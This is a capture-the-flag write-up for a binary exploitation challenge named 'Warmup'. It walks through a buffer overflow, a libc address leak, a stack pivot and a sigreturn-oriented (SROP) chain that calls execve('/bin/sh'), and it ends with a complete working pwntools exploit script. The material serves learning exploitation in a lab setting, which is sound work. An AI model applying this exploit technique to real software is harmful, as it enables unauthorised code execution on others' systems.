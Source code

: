 ## PWN - Warmup

This challenge was really fun. It might have been easier for some more experienced people but I am fairly new and had a lot of headache near the end.

This challenge started off fairly straight-forward since I knew from the first glance into the Ghidra disassembly code it would be a stack pivot problem since it only gives you 16 bytes to work with after the `RBP` register.

``` c
undefined8 main(void)

{
  char local_48 [64];
  
  helper();
  printf("%p\n",puts);
  printf("name>> ");
  fgets(name,0x200,stdin);
  printf("alright>> ");
  fgets(local_48,0x58,stdin);
  puts("okey");
  return 0;
}
```

So first off I thought I would write a ret2libc ROP chain into the "name" variable and then use the `pop rsp ; ret` gadget I found in the binary for a stack pivot.

Now the only problem here is, there is only 512 allocated bytes into the `name` buffer, which will not be enough. But I didn't know that until a few hours later when I realized the reason `system` was breaking was because it was setting the stack pointer way above where it was intended. Below is the assembler code before and at the point it breaks. Here you can see the stack pointer being set a long way further up and the point where the exploit breaks since it is trying to write into an unwriteable area in memory.

```
   0x00007f4b0993f92e <+46>:    sub    rsp,0x388
   0x00007f4b0993f935 <+53>:    mov    rax,QWORD PTR fs:0x28
   0x00007f4b0993f93e <+62>:    mov    QWORD PTR [rsp+0x378],rax
   0x00007f4b0993f946 <+70>:    xor    eax,eax
=> 0x00007f4b0993f948 <+72>:    mov    DWORD PTR [rsp+0x18],0xffffffff
```

### Solution

So if there is not enough space to call `system` then I decided to create an SROP chain, using gadgets from libc. But first I must leak the libc PIE offset. Thankfully the challenge gives you the address of `puts` so the hard work is already done for you.

``` python
puts = io.recvuntil(b"\n")
puts = int (puts, 16)
offset = puts - libc.symbols["puts"]
```

I will also need to gather all the gadgets needed for this.

``` python
pop_rsp = p64 (0x40118e) # push rbp ; mov rbp, rsp ; pop rsp ; ret
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
syscall = rop.find_gadget(["syscall"])[0]
pop_rax = rop.find_gadget(["pop rax", "ret"])[0]
binsh = p64 (next(libc.search(b"/bin/sh")) + offset)
```

Now with this I can create the SROP chain.

``` python
frame = SigreturnFrame()
frame.rax = 59 # execve syscall
frame.rdi = next(libc.search(b"/bin/sh")) + offset
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall + offset

srop = p64(pop_rax + offset) + p64(0xf) + p64(syscall + offset) + bytes(frame)
```

And now all I must do is pivot the stack into `name` with the overflow.

``` python
target_buf_start = p64(0x404060)

overflow = b"A"*64 + target_buf_start + pop_rsp + target_buf_start
```

### Final solution

``` python
from pwn import *

io = process ("./warmup")
file = context.binary = ELF("./warmup")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")


# GADGETS

rop = ROP(libc)

puts = io.recvuntil(b"\n")
puts = int(puts, 16)
offset = puts - libc.symbols["puts"]

pop_rsp = p64(0x40118e) # push rbp ; mov rbp, rsp ; pop rsp ; ret
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
syscall = rop.find_gadget(["syscall"])[0]
pop_rax = rop.find_gadget(["pop rax", "ret"])[0]
binsh = p64 (next(libc.search(b"/bin/sh")) + offset)


# SROP

frame = SigreturnFrame()
frame.rax = 59
frame.rdi = next(libc.search(b"/bin/sh")) + offset
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall + offset

srop = p64(pop_rax + offset) + p64(0xf) + p64(syscall + offset) + bytes(frame)


# PIVOT SECTION

target_buf_start = p64(0x404060)

overflow = b"A"*64 + target_buf_start + pop_rsp + target_buf_start

io.sendline(srop)
io.sendline(overflow)

io.interactive()
```
